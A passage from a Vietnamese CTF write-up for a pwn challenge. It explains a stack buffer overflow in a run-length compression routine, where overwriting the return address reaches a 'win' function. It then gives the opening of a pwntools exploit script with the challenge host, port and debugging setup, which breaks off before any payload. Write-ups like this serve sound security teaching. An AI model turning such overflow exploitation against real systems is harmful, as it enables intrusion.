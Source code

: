 ```c
}
```
Ở hàm ta có thể thấy nó là một dạng nén data lại bằng cách đếm số lần xuất hiện liên tục của một byte rồi lưu lại theo dạng `<byte><số lần xuất hiện>`
![image](https://hackmd.io/_uploads/Bkv3s4M6ee.png)

Ở đây có thể thấy có lỗi BOF ở đây do sau khi compress data được lưu thẳng vào stack qua `a3` mà không check -> ta đã có thể ghi đè return address và gọi hàm `win` có sẵn

Script:
```python!
#!/usr/bin/env python3
# Author: hxzjnk

from pwn import *
from subprocess import check_output
import sys

context.log_level = 'debug'
context.binary = exe = ELF('./main')
context.arch = 'amd64'
context.terminal = ['wt.exe', 'wsl', '-e']

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
ld = ELF('/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2')

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)

addr = 'pwn-14caf623.p1.securinets.tn'
port = 9000

gdb_script = [
    f'set solib-search-path {os.getcwd()}',
    'b *vuln+160',
    'c'
]

def get_pid(name):
    return int(check_output(["pgrep", "-f", "-n", name]))

def conn():
    # print args
    p = None
    if args.REMOTE:
        print("Remote...")
        p = remote(addr, port)
    elif args.GDB:
        p = gdb.debug(exe.path, gdbscript='\n'.join(gdb_script))
    elif args.DOCKER:
        print("Docker...")
        p = remote('localhost', 1338)
        sleep(0.1)
        pid = get_pid("/home/user/chal")
        gdb.attach(pid, exe=exe.path,
                   gdbscript=f"set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe\n" + '\n'.join(gdb_script))
```